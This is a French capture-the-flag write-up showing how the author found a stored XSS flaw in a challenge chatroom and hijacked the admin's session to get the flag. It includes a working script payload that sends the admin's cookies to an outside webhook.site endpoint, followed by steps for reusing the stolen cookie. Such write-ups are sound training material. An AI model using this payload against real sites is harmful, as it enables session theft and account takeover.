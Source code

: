 ## **🎯Chatroom**

![Screenshot](images/chatroom_1.png)


Dans ce challenge, on nous donne accès à un **chatroom** où un message explique que l’**admin lira notre message dans 30 secondes**.

🧐 Dès cette indication, je pense immédiatement à une potentielle **vulnérabilité XSS** (**Cross-Site Scripting**), car si un message est stocké et exécuté dans le navigateur de l’admin, on pourrait **injecter du JavaScript malveillant**.

---

## **🔎 Étape 1 - Tester une Injection XSS**

Pour vérifier si l’input est vulnérable au **XSS**, j’essaye un **payload simple** :

`<script>alert(1)</script>`

✅ **Résultat** : Une boîte d'alerte apparaît, ce qui confirme que mon code s’exécute bien sur la page.

![Screenshot](images/chatroom_2.png)

---

## **🕵️‍♂️ Étape 2 - Exfiltration du Cookie de l’Admin**

Maintenant que je sais que le **XSS fonctionne**, je vais exploiter cette faille pour **voler les cookies de l'admin**.

### **💻 Payload utilisé :**

`<script> window.location.href = "https://webhook.site/573a7e16-fd1f-4a49-8445-1e5e43a5c297?cookie=" + document.cookie </script>`

Ce script **envoie automatiquement** les cookies du navigateur de l’admin vers mon **endpoint webhook.site**, ce qui me permet de récupérer ses **informations de session**.

---

## **📩 Étape 3 - Récupération du Cookie de l’Admin**

Quelques secondes plus tard, je reçois une requête sur mon endpoint **avec le cookie de l'admin** :

![Screenshot](images/chatroom_3.png)

🔑 **Contenu du cookie** :

- `username=Alice
- `id_value=adminaeg5af2z3cds2csdsdc3cnb`

---

## **🎭 Étape 4 - Changement de Session**

Avec ces informations, je modifie **mes propres cookies** dans mon navigateur pour **usurper la session de l'admin**.

![Screenshot](images/chatroom_4.png)

---

## **🏆 Étape 5 - Accès et Récupération du Flag**

Après avoir **rechargé la page avec la session de l'admin**, je tombe directement sur le **flag** 🎉.

![Screenshot](images/chatroom_5.png)

---

## **🚀 Conclusion**

🔹 **Problème :** Le chatroom est vulnérable à une **faille XSS stockée**.  
🔹 **Exploitation :** J’ai injecté un **script malveillant** qui **vole les cookies** de l’admin via un webhook.  
🔹 **Résultat :** En usurpant la session de l’admin, j’ai pu accéder à la page restreinte et récupérer le **flag**.

### **💡 Leçon à retenir**

✅ **Ne jamais faire confiance aux entrées utilisateur !**  
✅ **Toujours filtrer/sanitariser les inputs pour empêcher l'exécution de scripts malveillants.**